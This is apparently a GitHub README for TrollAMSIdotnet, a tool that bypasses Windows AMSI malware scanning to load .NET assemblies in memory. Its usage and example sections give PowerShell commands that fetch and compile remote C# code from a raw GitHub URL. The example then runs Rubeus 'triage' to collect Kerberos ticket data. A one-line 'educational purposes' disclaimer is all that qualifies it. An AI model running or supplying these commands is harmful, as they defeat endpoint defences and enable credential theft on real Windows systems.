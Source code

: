 # TrollAMSIdotnet
TrollAMSI only bypasses powershell's amsi and not the CLR amsi. 



  
## Usage 
```
add-type -path (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSIdotnet/main/trollamsidotnet.cs).content
$asm = [TrollAMSIdotnet]::Load(<BYTE_ARRAY_DOWNLOAD>,<ASSEMBLY_NAME>) 
[string[]]$args = "<ARGUMENT_TO_ASSEMBLY>", "<ARGUMENT_TO_ASSEMBLY>"
[TrollAMSIdotnet]::Invoke($asm,$args)
```

## Example 
```
add-type -path (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSIdotnet/main/trollamsidotnet.cs).content
$asm = [TrollAMSIdotnet]::Load([System.IO.File]::ReadAllBytes("C:\Troll.exe"),"Rubeus.exe") 
[string[]]$args = "triage", "/consoleoutfile:C:\FILE.txt"
[TrollAMSIdotnet]::Invoke($asm,$args)
```


## Disclaimer
Should only be used for educational purposes!
